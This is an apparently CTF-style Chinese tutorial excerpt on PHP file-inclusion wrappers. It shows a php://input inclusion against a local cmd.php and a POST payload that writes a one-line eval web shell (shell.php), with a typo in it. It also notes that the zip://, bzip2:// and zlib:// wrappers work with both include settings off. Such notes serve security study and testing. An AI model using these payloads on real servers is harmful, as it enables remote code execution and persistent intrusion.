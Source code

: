 ![](images/ctf-2021-06-18-18-17-05.png)

测试现象：

http://127.0.0.1/cmd.php?file=php://input

[POST DATA] <?php phpinfo()?>

也可以POST如下内容生成一句话： <?php fputs(fopen(“shell.php”,”w”),’<?php eval($_POST["cmd"];?>’);?>

![](images/ctf-2021-06-18-18-17-27.png)

### zip://, bzip2://, zlib://协议

```
PHP.ini：
zip://, bzip2://, zlib://协议在双off的情况下也可以正常使用；
allow_url_fopen ：off/on
allow_url_include：off/on
```
